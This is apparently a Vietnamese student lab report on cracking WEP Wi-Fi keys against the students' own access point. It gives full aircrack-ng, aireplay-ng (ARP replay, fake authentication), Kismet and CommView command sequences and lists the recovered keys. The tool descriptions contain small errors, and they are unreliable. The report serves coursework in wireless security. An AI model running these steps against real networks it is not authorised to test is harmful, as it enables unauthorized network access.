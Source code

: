 # **Báo cáo đồ án môn học**
## Môn học: An toàn mạng không dây và di động
## **Đề tài: CRACKING WEP**
### GVHD: **Lê Kim Hùng**
### Sinh viên: **Phạm Lam Khê 17520007 -- Cao Bá Kiệt 17520659**
### **A. Chuẩn bị**
#### **1. Các thiết bị dùng trong phần thực hành**
* Access point: TL-WR740N
* Adapter: TL-WN722N-v2
* Máy ảo: Kali linux-v5.4
#### **2. Các công cụ dùng trong bài thực hành**
* Aireplay-ng – Most popular Perl-based WEP encryption cracking tool
* Aircrack-ng – ARP spoof/injection using aireplay-ng
* Kismet – Network Sniffer, can grab IVs as well
* Airodump – GrabbingIVs
* Commview – Capturing the Packets in Windows
#### **3. Mô Hình**
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image001.png)

### **B. Thực hiện**
#### **I.Sử dụng Airmon-ng, Airodump-ng, Aireplay-ng, để crack password**
**Các bước thực hiện:**\
Bước 1: Tìm kiếm Wireless Adapter\
#airmon-ng\
Bước 2: Bật chế độ monitor cho wireless adapter\
#airmon-ng start wlan0\
Bước 3: Tìm kiếm các access point xung quanh và các client (station) kết nối tới nó (sử dụng airodump hoặc kismet)\
#airodump-ng wlan0mon \
Bước 4: Kiểm tra xem có thể thực hiện injection attack tới AP không ?\
#aireplay-ng -9 -e [SSID] -a [BSSID] wlan0mon\
Bước 5: Bắt các IV được sinh ra từ Access point\
#airodump-ng --bssid [bSSID] -c [Channel of AP] -w [tên file capture] wlan0mon\
Bước 6: Sinh traffic giữa Access point và station. (Các gói ARP request được gửi và AP sẽ phản hồi, qua đó các IV được sinh ra và chúng ta sẽ bắt các IV này)\
#aireplay-ng -3 -b [bssid] -h [MAC station] wlan0mon\
Bước 7: Fake authentication với AP\
#aireplay-ng -1 0 -e [SSID] -a [bSSID] -h [MAC station] wlan0mon\
Bước 8: Quay về bước 5, xem thử số lượng packet bắt được đã đủ để crack chưa ? Thường thì khoảng 20000 đối với key length 64bits và 900000 đối với key length 128bits. Kết thúc quá trình bắt IV và sử dụng aircrack để tìm key\
#Aircrack-ng [tên file capture đã bắt ở trên]\
**Thực hiện 4 lần**
|STT     | SSID      | Password  |  Keylength        | Kết Quả  |
| ------------- |:-------------:| -----:|:-------------:| -----:|
| 1   | MrKiett007 |_*KietKhe.@/; |128-bits| Thành công|
| 2   | MrKiett007  |  CaoBaKiet1999 |128-bits|Thành công|
|3 | MrKiett007 |   MrA12 |64-bits|Thành công|
|4|MrKiett007|  Mr_*1 |64-bits|Thành công|

**Chi tiết các bước thực hiện:**\
Bước 1: Tìm kiếm Wireless Adapter\
#airmon-ng\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image004.png)\
Bước 2: Bật chế độ monitor cho wireless adapter\
#airmon-ng start wlan0\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image005.png)\
Bước 3: Tìm kiếm các access point xung quanh và các client (station) kết nối tới nó (Có thể dùng airodump hoặc kismet)\
#airodump-ng wlan0mon \
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image006.png)\
Bước 4: Kiểm tra xem có thể thực hiện injection attack tới AP không ?\
#aireplay-ng -9 -e MrKiett007-a 62:FF:3E:5A:58:C1 wlan0mon\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image007.png)\
Bước 5: Bắt các IV được sinh ra từ Access point\
#airodump-ng –bssid 62:FF:3E:5A:58:C1 -c 1 -w WEPcrack wlan0mon\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image008.png)\
Bước 6: Sinh traffic giữa Access point và station. (Các gói ARP request được gửi và AP sẽ phản hồi, qua đó các IV được sinh ra và chúng ta sẽ bắt các IV này)\
#aireplay-ng -3 -b 62:FF:3E:5A:58:C1 -h 0C:9D:92:6E:AD:CE wlan0mon\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image009.png)\
Bước 7: Fake authentication với AP\
#aireplay-ng -1 0 -e MrKiett007 -a 62:FF:3E:5A:58:C1 -h 0C:9D:92:6E:AD:CE wlan0mon\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image010.png)\
Bước 8: Quay về bước 5, xem thử số lượng packet bắt được đã đủ để crack chưa? Thường thì khoảng 20000 đối với key length =64bits và 900000 đối với key length=128bits. Kết thúc quá trình bắt IV và sử dụng aircrack để tìm key\
#Aircrack-ng WEPcrack-01.cap\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image011.png)\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image012.png)\
* ==> tìm được key : _*KietKhe.@/;
**Làm tương tự với 3 trường hợp còn lại:**
Kết quả:
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image013.png)\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image014.png)\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image015.png)
#### **II.Sử dụng công cụ kismet và aircrack-ng để tìm password**
* Bước 1: Vào file **/etc/kismet/kismet_logging.conf** sửa file:
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/fileCauHinh.png)\
* Bước 2: Bật chế độ monitor\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image005.png)\
* Bước 3: Chạy kismet và một lúc để bắt đủ số lượng gói tin
#sudo kismet -c wlan0mon\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/Screenshot_2020-06-30_10-34-02.png)
* Bước 4: Chuyển file pcapng thành pcap bằng wireshark ( Mở file pcapng lên bằng wireshark và lưu lại thành file pcap)
* Bước 5: Dùng aircrack-ng để tìm password
![a](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/ap.png)\
![a](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/PASS.png)

#### **III.Sử dụng công cụ Comview và aircrack-ng để tìm password**
**Qui trình thực hiện:**
* Bước 1: Dùng comview để bắt gói tin chứa IV
* Bước 2: Dùng Aircrack-ng để tìm password

 |STT     | SSID      | Password  |  Keylength        | Kết Quả  |
| ------------- |:-------------:| -----:|:-------------:| -----:|
| 1   | MrKiett007 |_*KietKhe.@/; |128-bits| Thành công|
| 2   | MrKiett007  |  CaoBaKiet1999 |128-bits|Thành công|


**Chi tiết thực hiện:**\
Bước 1: Chọn Capture Packet, vào loging để chỉnh dung lượng file log và nơi lưu trữ:\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image016.png)\
Bước 2: Vào Nodes và cấu hình scaner mode trên tất cả các channel\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image017.png)\
Bước 3: Chọn Start Capture và quan sát thông tin liên quan đến trạm wifi cần tìm password\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image018.png)\
Bước 4: Chọn Single channel mode, và chọn channel thích hợp (VD: là channel 2)\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image019.png)\
Bước 5: Sau một thời gian đợi số lượng gói tin bắt được đủ lớn thì dừng. Số lượng gói tin cần bắt phụ thuộc vào độ phức tạp của key.\
**=>Vào File -> Log viewer và mở file log vừa bắt ở trên lên để đọc file log**\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image020.png)\
Bước 6: Chọn File -> export logs -> wireshark/tcpdump format và lưu lại file .cap\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image021.png)\
Bước 7: dùng aircrack để tìm password. Copy file .cap đã lưu vào máy kali sau đó dùng lệnh aircack-ng [ten file] \
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image022.png)\
==> Đã tìm được password (  _*MraK12.@#/;  )\
**Làm tương tự với trường hợp còn lại. Kết quả:**\
![My image](https://github.com/CaoBaKietIT/CrackWEP/blob/master/Image/image023.png)
khe

